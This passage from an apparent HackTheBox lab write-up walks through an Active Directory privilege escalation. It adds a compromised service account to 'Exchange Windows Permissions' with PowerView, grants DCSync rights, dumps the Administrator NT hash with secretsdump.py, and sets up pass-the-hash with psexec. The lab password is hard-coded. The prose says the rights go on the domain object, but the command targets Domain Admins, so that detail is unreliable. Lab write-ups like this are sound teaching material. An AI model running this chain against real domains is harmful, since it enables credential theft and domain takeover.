Armed with new functions, we can now add our compromised account to Exchange Windows Permissions, grant DCSync rights on the domain object and execute a DCSync attack.

Let's build a powershell script that does this for us:

We must build a PSCredential, which is an object consisting of a username and a password secure string. 
This is needed because after adding svc-alfresco to Exchange Windows Permissions, the current Kerberos token doesn't include the new group membership. Passing $pscred forces a fresh authentication, thereby including the new membership and allowing the modification.

Create variable username:

```
$username = "HTB\svc-alfresco"
```
Create variable securestring:
```
$securestring = ConvertTo-SecureString "s3rvice" -AsPlainText -Force
```
Create variable pscred:
```
$pscred = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $securestring
```

Next we add svc-alfresco to the Exchange Windows Permissions Group:
```
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco;
```
Now we can grant DCSync rights on the domain object HTB.LOCAL:
```
Add-DomainObjectAcl -Credential $pscred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```


From our attack host we can now run:
```
secretsdump.py svc-alfresco:s3rvice@<IP>
```



We got an NT hash for the Administrator that is used for NTLM Authentication!

With this hash we can "Pass the Hash" and log into the account with psexec:

